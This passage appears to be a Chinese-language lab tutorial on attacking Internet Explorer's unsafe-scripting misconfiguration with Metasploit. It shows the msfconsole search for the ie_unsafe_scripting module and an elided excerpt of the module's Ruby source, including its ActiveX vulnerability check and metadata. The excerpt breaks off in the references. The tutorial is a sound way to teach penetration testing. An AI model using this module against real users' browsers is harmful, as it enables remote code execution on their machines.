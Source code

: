 在攻击 IE 浏览器的 “不安全脚本错误配置漏洞“ 中，攻击的模块已经被集成在了 `Msfconsole` 里面，其名称为 `ie_unsafe_scripting`。通过 `search` 命令可以查到漏洞模块时间信息**（注意，由于 Metasploit 中模块较多，所以使用 search 命令搜索较慢，大概需要两到三分钟左右，请耐心等待）**：
```
# 查找相应的模块信息
msf > search ie_unsafe_scripting
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483604660380.png-wm)

对于 `ie_unsafe_scripting`  的源码部分，可以通过 `cat` 命令进行查看。`Metasploit` 的攻击模块由 Ruby 语言进行编写。攻击 IE 漏洞的模块关键部分源码如下所示：
```
# 引入一些必要的模块 core、exe、powershell 等
require 'msf/core'
require 'msf/util/exe'
require 'msf/core/exploit/powershell'

class MetasploitModule < Msf::Exploit::Remote

  Rank = ManualRanking

  include Msf::Exploit::Remote::BrowserExploitServer
  include Msf::Exploit::EXE
  include Msf::Exploit::Powershell

  # 实例化 ActiveXObject 的一些信息
  # 对于 ActiveX 是什么，可以查看第 3 小结基础知识介绍，其中有介绍 ActiveX
  VULN_CHECK_JS = %Q|
    try {
      new ActiveXObject("WScript.Shell");
      new ActiveXObject("Scripting.FileSystemObject");
      is_vuln = true;
    } catch(e) {}
  |
...
...
...

# 使用函数 initalize 初始化相关信息
def initialize(info = {})
    super(update_info(info,
      
      # 模块的名字信息
      'Name'                  => 'Microsoft Internet Explorer Unsafe Scripting Misconfiguration',
		
	  # 模块的描述信息	，描述信息过长已经省略
      'Description'           => %q{
		...
		...
		...
      },
		
	  # 模块的相关证书
      'License'               => MSF_LICENSE,
 
      # 模块的作者信息
      'Author'                =>
        [
          'natron',
          'Ben Campbell' # PSH and remove ADODB.Stream
        ],
        'References'          =>
        [
          [ 'URL', 'http://support.microsoft.com/kb/182569' ],
```